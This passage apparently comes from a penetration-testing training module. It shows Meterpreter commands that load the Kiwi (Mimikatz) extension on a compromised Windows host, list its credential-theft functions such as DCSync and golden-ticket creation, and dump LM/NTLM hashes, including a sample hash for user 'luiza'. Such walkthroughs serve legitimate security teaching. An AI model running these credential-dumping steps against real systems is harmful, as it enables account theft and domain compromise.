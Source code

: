 > Listing 72 - Using *getsystem* in a newly spawned Meterpreter session via execution of **met.exe** in the bind shell

Now, let's enter **load** with **kiwi** as argument to load the Kiwi module. Then, we can use **help** to display the commands of the Kiwi module. Finally, we'll use **creds\_msv** to retrieve [LM](https://en.wikipedia.org/wiki/LAN_Manager) and [NTLM](https://en.wikipedia.org/wiki/NT_LAN_Manager) credentials.

```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY \`gentilkiwi\` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > help

...

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)

meterpreter > creds_msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

Username  Domain  NTLM                              SHA1
--------  ------  ----                              ----
luiza     ITWK01  167cf9218719a1209efcfb4bce486a18  2f92bb5c2a2526a630122ea1b642c46193a0d837
...
```
